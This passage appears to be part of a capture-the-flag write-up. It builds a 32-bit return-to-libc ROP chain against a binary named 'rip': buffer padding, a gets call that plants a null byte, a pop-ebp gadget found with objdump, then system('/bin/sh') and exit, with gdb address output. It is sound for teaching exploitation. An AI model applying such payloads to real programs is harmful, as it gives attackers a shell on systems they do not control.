 1. Call `gets` and write \x00 to a byte address we will pass as
an argument

2. Call `system` with "/bin/sh" as argument

3. Call exit, leaving the program with no `Segmentation Fault`

first, the `gets`:

```
#fill buffer, EBP, go to gets, return address, address to write null
b'A'*0x18 + b'BBBB' + gets +  return address  + address to nullify
```

In `return address` we could put a `pop; ret` gadget. This would
get rid of `address to nullify` and load whatever comes after it to
EIP.

We have two binaries in which we can look for gadgets here: `rip`
and the 32 bit `libc` library.

With `objdump -D -M intel-mnemonic rip | grep -B 1 ret | grep -A 1 pop`
we get theses results:

```
 804832d:	5b                   	pop    ebx
 804832e:	c3                   	ret    
--
 80485fb:	5d                   	pop    ebp
 80485fc:	c3                   	ret    
--
 8048616:	5b                   	pop    ebx
 8048617:	c3                   	ret
```

Since we keep overriding EBP anyway, let's just use
`0x80485fb` (`pop ebp; ret`). So the beggining of our
payload now looks like this:

```
b'A'*0x18 + b'BBBB' + gets + pop;ret + address to nullify
```

Now for the `system` part we just add:

```
system + exit (with a non zero value instead of the null byte) + "/bin/sh" address
```

To get `exit` we can just do `print exit` in `gdb` after
running the program. To get where the future null byte of
`exit` will be at, we just get the number of bytes
between it and the first EBP byte (20 bytes) and add it
to the value of EBP at `passsword_is_correct`:

```
(gdb) p $ebp
$9 = (void *) 0xffffd208
(gdb) p $ebp + 20
$10 = (void *) 0xffffd21c
```
